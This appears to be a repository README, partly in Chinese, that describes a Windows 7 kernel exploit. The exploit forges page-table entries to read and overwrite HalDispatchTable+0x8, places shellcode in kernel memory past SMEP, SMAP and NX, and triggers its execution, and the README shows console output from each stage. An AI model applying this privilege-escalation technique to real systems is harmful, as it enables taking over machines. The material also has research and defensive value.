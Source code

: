 创建一个页表，允许读取haldispatchtable+0x8的值。

创建一个页表，允许将shellcode写入内核态内存，绕过SMEP和SMAP，并删除页表上的NX位以允许代码执行。

创建一个页表，允许覆盖haldispatchtable+0x8，这将触发代码执行。

读取将被替换的原始值（haldispatchtable+0x8）

On a Windows 7 box:



```
[*] Getting Overwrite pointer: fffff80002c42c60
[+] Selected spurious PML4E: fffff6fb7dbedf00
[+] Spurious PT: fffff6fb7dbe0000
--------------------------------------------------
[+] Content pml4e fffff6fb7dbedf80: 199063
[+] Patching the Spurious Offset (PML4e) fffff6fb7dbedf00: 199067
[+] Content pdpte fffff6fb7dbf0000: 198063
[+] Patching the Spurious Offset (PDPTE) fffff6fb7dbedf00: 198067
[+] Content pdpe fffff6fb7e0000b0: 1dc063
[+] Patching the Spurious Offset (PDE) fffff6fb7dbedf00: 1dc067
[+] Content pte fffff6fc00016210: 8000000002c42963
[+] Patching the Spurious Offset (PTE) fffff6fb7dbedf00: 2c42967
OverwriteAddress: fffff6fb7dbe0c60
```

写入shellcode和删除NX位的输出：



```
Original OverwriteTarget pointer: fffff80002a438e8
[+] Selected spurious PML4E: fffff6fb7dbedf08
[+] Spurious PT: fffff6fb7dbe1000
--------------------------------------------------
[+] Content pml4e fffff6fb7dbedff8: 1ec063
[+] Patching the Spurious Offset (PML4e) fffff6fb7dbedf08: 1ec067
[+] Content pdpte fffff6fb7dbffff8: 1eb063
[+] Patching the Spurious Offset (PDPTE) fffff6fb7dbedf08: 1eb067
[+] Content pdpe fffff6fb7ffffff0: 1ea063
[+] Patching the Spurious Offset (PDE) fffff6fb7dbedf08: 1ea067
[+] Content pte fffff6ffffffe800: 100163
*** Patching the original location to enable NX...
[+] Patching the Spurious Offset (PTE) fffff6fb7dbedf08: 100167 
HAL address: fffff6fb7dbe1000
[+] w00t: Shellcode stored at: ffffffffffd00d50
```

覆盖exec目标的输出：



```
[+] Selected spurious PML4E: fffff6fb7dbedf10
[+] Spurious PT: fffff6fb7dbe2000
--------------------------------------------------
[+] Content pml4e fffff6fb7dbedf80: 199063
[+] Patching the Spurious Offset (PML4e) fffff6fb7dbedf10: 199067
[+] Content pdpte fffff6fb7dbf0000: 198063
[+] Patching the Spurious Offset (PDPTE) fffff6fb7dbedf10: 198067
[+] Content pdpe fffff6fb7e0000b0: 1dc063
[+] Patching the Spurious Offset (PDE) fffff6fb7dbedf10: 1dc067
[+] Content pte fffff6fc00016210: 8000000002c42963
[+] Patching the Spurious Offset (PTE) fffff6fb7dbedf10: 2c42967
Patch OverwriteTarget: fffff6fb7dbe2c68 with ffffffffffd00d50
```
